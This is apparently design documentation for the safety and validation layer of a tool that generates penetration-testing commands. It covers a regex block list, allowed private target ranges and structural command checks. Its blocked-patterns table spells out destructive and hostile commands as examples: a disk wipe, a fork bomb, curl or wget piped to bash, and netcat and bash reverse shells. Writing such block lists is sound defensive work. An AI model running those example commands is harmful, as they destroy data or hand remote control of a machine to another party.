



# 07 — Safety & Validation

C2 applies a **dual-layer** protection mechanism on every synthesized command before it is returned to the caller.

---

## 7.1 Layer Overview



> **Key distinction:** `SafetyFilter` failures are **fatal** (HTTP 400). `CommandValidator` fatal structural failures (empty command, multi-line command, or wrong tool binary prefix) are also **fatal** and raise `HTTPException(status_code=422)` (Unprocessable Entity). Non-fatal warnings (missing required flags, no private IP warning) populate `safety_flags` and `validation_passed: true`.


---

## 7.2 SafetyFilter (`src/validation/safety_filter.py`)

### Purpose

Prevents dangerous system commands, out-of-scope targets, and unapproved tools from being returned.

### `validate(command: str, target: str) → Tuple[bool, List[str]]`

Three ordered checks:



### Blocked Patterns Reference

| Regex Pattern | Threat Category | Example Trigger |
|---|---|---|
| `rm\s+-rf` | Destructive filesystem operation | `rm -rf /` |
| `mkfs` | Filesystem formatting | `mkfs.ext4 /dev/sda` |
| `dd\s+if=` | Raw disk write | `dd if=/dev/zero of=/dev/sda` |
| `:\(\)\{:\|:&\};:` | Fork bomb (shell bomb) | `:(){ :|:& };:` |
| `chmod\s+777\s+/` | World-writable root filesystem | `chmod 777 /etc` |
| `> /dev/sd` | Device file write | `echo x > /dev/sda` |
| `wget.+\|\s*bash` | Remote code execution via wget | `wget http://x/s.sh \| bash` |
| `curl.+\|\s*bash` | Remote code execution via curl | `curl http://x/s.sh \| bash` |
| `nc\s+-e\s+/bin` | Netcat bind shell | `nc -e /bin/sh 10.0.0.1 4444` |
| `bash\s+-i\s+>&` | Bash reverse shell | `bash -i >& /dev/tcp/x/4444` |

All patterns are matched case-insensitively.

### Allowed Target Ranges

| Range | CIDR | Regex Pattern |
|---|---|---|
| Class A private | `10.0.0.0/8` | `^10\.` |
| Class B private | `172.16.0.0/12` | `^172\.(1[6-9]\|2[0-9]\|3[01])\.` |
| Class C private | `192.168.0.0/16` | `^192\.168\.` |
| Loopback | `127.0.0.0/8` | `^127\.` |
| Localhost | — | `localhost` |

Any target not matching these patterns results in a fatal block.

### Allowed Tools List

`nmap`, `nikto`, `gobuster`, `hydra`, `metasploit`, `whois`, `dig`, `curl`, `wget`

Commands whose first word is not in this list generate a non-fatal warning.

---

## 7.3 CommandValidator (`src/validation/command_validator.py`)

### Purpose

Validates the structural correctness of the synthesized command against the expected tool.

### `validate(command: str, expected_tool: str) → Tuple[bool, List[str]]`

| Check | Type | Failure Mode | Message |
|---|---|---|---|
| Empty command | Fatal | `return False` | `ERROR: empty command` |
| Multi-line command | Fatal | `return False` | `ERROR: multi-line command not allowed` |
| Wrong tool prefix | Fatal | `return False` | `ERROR: command does not start with expected tool '<tool>'` |
| Missing required flags | Warning | Continues | `WARNING: command missing expected flags for <tool>` |
| No private IP | Warning | Continues | `WARNING: no private IP found in command` |

### Tool Patterns

```python
TOOL_PATTERNS = {
    "nmap"    : r"^nmap\s+",
    "nikto"   : r"^nikto\s+",
    "gobuster": r"^gobuster\s+(dir|dns|vhost|fuzz)\s+",
}
```

Valid gobuster subcommands: `dir`, `dns`, `vhost`, `fuzz`.

### Required Flags

```python
TOOL_REQUIRED_FLAGS = {
    "nmap"    : ["-s", "-p", "--top-ports", "-A", "-sn"],
    "nikto"   : ["-h"],
    "gobuster": ["-u", "-w"],
}
```

The validator checks whether **any** flag from the list appears in the command string.

### Private IP Pattern

The validator checks for RFC-1918 addresses using:
```python
re.search(r"192\.168\.\d+\.\d+|10\.\d+\.\d+\.\d+", command)
```

> Note: This pattern only checks for `192.168.x.x` and `10.x.x.x` ranges. `172.16-31.x.x` is not currently included in this check (it is in `SafetyFilter`).

---

## 7.4 REJECTED Intent Guard

Before the pipeline even begins, the `REJECTED` intent is intercepted:



This ensures:
- No RAG retrieval is performed for rejected intents.
- No Ollama inference is called.
- The rejection reason from C1 is surfaced in the error detail.
- Latency is recorded (even for rejected requests).

---

## 7.5 Safety Decision Matrix

| Scenario | SafetyFilter | CommandValidator | HTTP Status |
|---|---|---|---|
| Valid command, private target | ✅ Pass | ✅ Pass | `200` |
| Valid command, no private IP in command | ✅ Pass | ⚠️ Warning | `200` |
| Valid command, public IP target | ❌ BLOCKED | — | `400` |
| Dangerous pattern in command | ❌ BLOCKED | — | `400` |
| Unapproved tool (non-fatal warning) | ⚠️ Warning | — | `200` |
| Empty command | ✅ Pass | ❌ Fatal | `422` (VALIDATION_FAILED) |
| Wrong tool prefix | ✅ Pass | ❌ Fatal | `422` (VALIDATION_FAILED) |
| REJECTED intent | — | — | `400` |
